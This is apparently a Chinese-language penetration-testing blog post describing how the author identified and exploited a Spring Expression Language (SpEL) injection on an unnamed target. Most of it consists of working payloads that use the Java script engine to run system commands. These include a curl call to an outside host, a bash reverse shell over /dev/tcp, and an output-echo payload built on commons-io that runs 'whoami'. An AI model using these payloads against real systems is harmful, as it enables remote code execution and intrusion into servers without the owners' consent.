

# 记一次SPEL表达式注入

### 前言

一位师傅找到我测一下某目标发现的表达式注入，据说尝试了好几个exp都没反应。

### 投石问路

测试发现支持`.`符号调用静态方法，至少知道直接调用静态方法时不需要New对象。


测试发现不支持OGNL的New语法，说明不是OGNL；


试了试EL表达式的语法，貌似也不是直接的EL表达式；



---

三大表达式已知两个不是，剩下的比较大可能性就是SPEL。

试了一下感觉是spel表达式，通过`.`去调用不存在的方法时会报错，可以以此来找寻可用的方法和依赖。

调用js引擎解析执行命令绕过成功。

```java
${"".class.class.getMethod("newInstance").invoke("".class.forName("javax.script.ScriptEngineManager")).getEngineByName("js").eval("java.lang.Runtime.getRuntime().exec('curl http://x.x.x.x:8888/a.png')")
}
```


目标出网就好办了，可以试试nc反弹shell


---

试了弹shell没反应

```java
${"".class.class.getMethod("newInstance").invoke("".class.forName("javax.script.ScriptEngineManager")).getEngineByName("js").eval("java.lang.Runtime.getRuntime().exec('bash -i >& /dev/tcp/x.x.x.x/8888 0>&1')")
}
```


### 改造Payload为回显exp

根据返回值判断可以近似于如下的状况，也就是说存在回显的可能：

```java
catch(error){
    System.out.println("开始时间");
    System.out.println(表达式执行(表达式));
    System.out.println("格式有误。。。");
}

```

调整payload，以求获得可以通过System.out.println()输出的回显。一般就是用JDK原生的`java.io.BufferedReader`或者第三方依赖的`common-io`等，记得先用java验证一下。


这边试了几个之后，发现确实存在common-io的依赖，因此可以构造payload：

```java
${"".class.class.getMethod("newInstance").invoke("".class.forName("javax.script.ScriptEngineManager")).getEngineByName("js").eval("org.apache.commons.io.IOUtils.toString(java.lang.Runtime.getRuntime().exec('whoami').getInputStream())")}
```


